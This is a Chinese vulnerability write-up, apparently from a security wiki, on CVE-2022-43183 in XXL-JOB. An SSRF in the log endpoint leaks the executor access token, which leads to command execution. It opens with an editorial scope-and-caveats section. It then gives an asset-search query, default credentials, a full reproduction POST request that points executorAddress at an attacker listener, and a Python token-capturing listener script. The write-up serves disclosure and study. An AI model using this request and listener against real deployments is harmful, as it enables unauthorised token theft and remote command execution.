





## 核对与使用边界


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=2.3.1、修复2.4.0；需已登录普通用户可访问接口、admin能访问外部HTTP、泄露token匹配可达executor

代码与实验材料：完整请求、低权限对照、HTTP监听器；最终/run阶段引用其他条目

来源证据范围：NVD及上游issue3002

- **适用与权限边界（1）**：摘要遗漏低权限登录前提；依据：完整流程明确普通账号，不能概括匿名SSRF/RCE。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：“任意executor”须限定共享token和网络；依据：不同token或不可达执行器不能凭泄露值调用。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **凭据与会话边界（3）**：认证前提与监听器副作用；依据：请求含登录cookie；SimpleHTTPRequestHandler GET会暴露当前目录，打印所有headers可能记录secret。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **事实待核（4）**：修复需固定commit；依据：2.4.0结论只有issue未给patch，待官方核验。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# XXL-JOB SSRF 漏洞泄露 Token 导致 RCE CVE-2022-43183

## 漏洞描述

XXL-JOB 是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB 分为 admin 和 executor 两端，前者为后台管理页面，后者是任务执行的客户端。

XXL-JOB =< 2.3.1 版本的 `xxl-job-2.3.1/xxl-job-admin/src/main/java/com/xxl/job/admin/controller/JobLogController.java` 中存在一个 SSRF 漏洞，该漏洞源自 `/logDetailCat`，它直接向 `executorAddress` 指定的地址发送查询日志请求，而不判断 `executorAddress` 参数是否为有效的执行者地址。查询请求携带 `XXL-JOB-ACCESS- TOKEN`，导致 `XXL-JOB-ACCESS-TOKEN` 泄露。攻击者可通过泄露的 `XXL-JOB-ACCESS-TOKEN` 调用任意 executor，最终导致任意命令执行。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2022-43183
- https://github.com/xuxueli/xxl-job/issues/3002

## 漏洞影响

```
XXL-JOB =< 2.3.1
```

## 网络测绘

```
app="XXL-JOB" || title="任务调度中心" || ("invalid request, HttpMethod not support" && port="9999")
```

## 环境搭建

本地搭建 XXL-JOB v2.3.1，源码 https://github.com/xuxueli/xxl-job/archive/refs/tags/2.3.1.zip

环境启动后，访问 `http://your-ip:8080/xxl-job-admin/toLogin` 即可查看到管理端（admin），访问 `http://your-ip:9999` 可以查看到客户端（executor）。

默认口令 `admin/123456` 登录后台：




## 漏洞复现

复现思路：

1. 创建一个普通用户，该用户没有 executor 权限；
2. 搭建一个恶意 HTTP 服务器，打印请求详细信息；
3. 使用普通用户调用 `/xxl-job-admin/joblog/logDetailCat` 接口，将 `executorAddress` 替换为恶意 HTTP 服务器地址；
4. 恶意 HTTP 服务器将通过 SSRF 漏洞获取泄露的 `XXL-JOB-ACCESS-TOKEN`；
5. 携带泄露的 `XXL-JOB-ACCESS-TOKEN` 调用任意 executor，执行任意命令。

首先，创建一个普通用户 user：

```
user/GO_7YhvzrHF4
```


以普通用户 user 身份重新登录：




然后，搭建一个恶意 HTTP 服务器，调用 `/xxl-job-admin/joblog/logDetailCat` 接口，将 `executorAddress` 替换为恶意 HTTP 服务器地址：

```
POST /xxl-job-admin/joblog/logDetailCat HTTP/1.1
Host: your-ip:8080
Content-Length: 97
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Origin: http://your-ip:8080
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://your-ip:8080/xxl-job-admin/joblog/logDetailCat
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: XXL_JOB_LOGIN_IDENTITY=7b226964223a322c22757365726e616d65223a2275736572222c2270617373776f7264223a223462643033633065653631306365383332626534616266313334363535643938222c22726f6c65223a302c227065726d697373696f6e223a22227d
Connection: keep-alive

executorAddress=http%3A%2F%2F<your-server-ip>%3A8888&logId=0&fromLineNum=0&triggerTime=1731464078000
```




恶意 HTTP 服务器成功获取泄露的 `XXL-JOB-ACCESS-TOKEN`：




最后，参考 XXL-JOB 默认 accessToken 身份绕过漏洞中的方法，携带泄露的 `XXL-JOB-ACCESS-TOKEN` 调用任意 executor，执行任意命令：




## 漏洞 POC

server.py

```python
# -*- coding: utf-8 -*-
# @Author  : Threekiii
# @Time    : 2024-11-13
# @Function: HTTP Server，打印请求详细信息，用于 SSRF 场景下从服务器获取数据

import logging
from http.server import SimpleHTTPRequestHandler, HTTPServer

# 自定义请求处理器
class MyRequestHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        self.log_request_details()
        super().do_GET()  # 处理 GET 请求

    def do_POST(self):
        self.log_request_details()
        
        # 读取并打印请求体内容
        content_length = int(self.headers.get('Content-Length', 0))
        post_body = self.rfile.read(content_length)
        logging.info(f"Request Body: {post_body.decode('utf-8')}")
        
        # 响应客户端
        self.send_response(200)
        self.send_header("Content-type", "text/plain")
        self.end_headers()
        
    def log_request_details(self):
        # 打印请求的详细信息
        logging.info(f"Request Method: {self.command}")
        logging.info(f"Request Path: {self.path}")
        logging.info(f"Headers: {self.headers}")

# 配置日志格式
logging.basicConfig(level=logging.INFO, format='%(asctime)s - %(message)s')

# 启动 HTTP 服务器
def run(server_class=HTTPServer, handler_class=MyRequestHandler, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    logging.info(f'Starting server on port {port}...')
    httpd.serve_forever()

if __name__ == "__main__":
    run(port=8888)
```

## 漏洞修复

该漏洞在 v.2.4.0 版本修复。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
